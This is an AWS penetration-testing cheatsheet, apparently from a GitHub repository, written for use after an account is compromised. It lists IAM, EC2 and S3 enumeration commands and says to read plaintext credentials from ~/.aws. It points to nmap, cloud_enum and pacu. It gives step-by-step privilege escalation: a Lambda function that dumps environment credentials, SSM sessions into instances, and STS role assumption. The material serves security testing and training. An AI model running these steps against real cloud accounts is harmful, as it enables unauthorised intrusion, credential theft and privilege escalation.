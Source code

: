 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```
### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### S3 bucket enumeration
- List all S3 buckets
```
aws s3 ls --profile PROFILE
```
- List a specific S3 bucket's content
```
aws s3 ls BUCKETNAME
```
- Download an object from an S3 bucket
```
aws s3 copy s3://BUCKETNAME/OBJECTNAME /PATH/TO/LOCAL/COPY
```

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region REGION --profile PROFILE
```
- List lambda functions to confirm the function was created
```
aws lambda list-functions
```
- Run the function to obtain short-lived credentials
```
aws lambda invoke --function-name "privesc-fun" --log-type Tail output.txt --region REGION --profile PROFILE
```

### Privilege escalation via SSM
- If the compromised account has `ssm:*` access then it has access to VMs and EC2 instances without needing a public IP address, SSH keys or username/password combinations
- Start a session in an EC2 instance
```
aws ssm start-session --target INSTANCE_ID --profile PROFILE --region REGION
```
- Enumerate the EC2 instance's role
```
aws sts get-caller-identity
```
- Continue enumeration and repeat the enumeration commands at the top of this document

### Privilege escalation via STS
- If the compromised account has `sts:*` privileges then you can assume roles
- Enumerate the existing roles and check for the `sts:AssumeRole` action for the role you currently hold
- Assume the role found and get a short-lived credential set
```
aws sts assume-role --role-arn FOUNDROLEARN --role-session-name SOMENAME
```
